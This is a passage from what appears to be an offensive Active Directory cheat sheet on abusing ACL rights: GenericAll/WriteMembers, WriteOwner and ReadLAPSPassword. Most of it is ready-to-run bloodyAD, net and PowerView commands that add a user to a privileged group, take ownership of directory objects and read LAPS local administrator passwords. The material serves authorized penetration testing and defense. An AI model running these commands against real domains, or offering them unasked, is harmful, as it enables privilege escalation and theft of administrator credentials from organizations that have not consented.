 * Windows/Linux:

  ```ps1
  bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' add genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
  
  # Remove right
  bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' remove genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
  ```

* Windows only:

  ```ps1
  # Using native command
  net group "INTERESTING_GROUP" User1 /add /domain
  # Or with external tool
  PowerSploit> Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
  ```

## WriteOwner

An attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they wants.

* Windows/Linux:

 ```ps1
 bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' set owner target_object devil_user1
 ```

* Windows only:

 ```ps1
 Powerview> Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
 ```

This ACE can be abused for an Immediate Scheduled Task attack, or for adding a user to the local admin group.

## ReadLAPSPassword

An attacker can read the LAPS password of the computer account this ACE applies to.

* Windows/Linux:

 ```ps1
 bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
 ```

* Windows only:

 ```ps1
 Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
 ```
